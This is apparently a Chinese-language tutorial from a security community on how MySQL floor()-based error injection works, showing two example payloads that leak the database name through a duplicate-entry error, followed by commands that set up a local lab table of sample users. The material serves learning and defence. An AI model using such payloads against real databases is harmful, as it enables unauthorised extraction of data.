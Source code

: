 

# sql 注入之 floor 报错注入原理学习 - 先知社区

sql 注入之 floor 报错注入原理学习

- - -

# Floor 报错注入原理学习

> Payload 一般长这样
> 
> select count(*) from users group by concat(database(),floor(rand(0)*2));  
> select count(*),concat(database(),floor(rand(0)*2)) as x from users group by x;
> 
> > 结果一般长这样
> > 
> > ERROR 1062 (23000): Duplicate entry 'sqli1' for key 'group\_key'

## 前置

### 创建一个表 那就叫 users 吧

```plain
mysql> create database sqli;
Query OK, 1 row affected (0.02 sec)

mysql> use sqli;
Database changed

mysql> create table users (id int(3),username varchar(100),password varchar(100));
Query OK, 0 rows affected (0.06 sec)

mysql> desc users;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(3)       | YES  |     | NULL    |       |
| username | varchar(100) | YES  |     | NULL    |       |
| password | varchar(100) | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
3 rows in set (0.03 sec)
```

### 放几条数据进去

```plain
mysql> insert into users values(1,'admin',md5('123456'));
Query OK, 1 row affected (0.03 sec)

mysql> insert into users values(1,'laolao',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'guairui',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'jiangjiang',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'moss',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'ltpp',md5('12345'));
```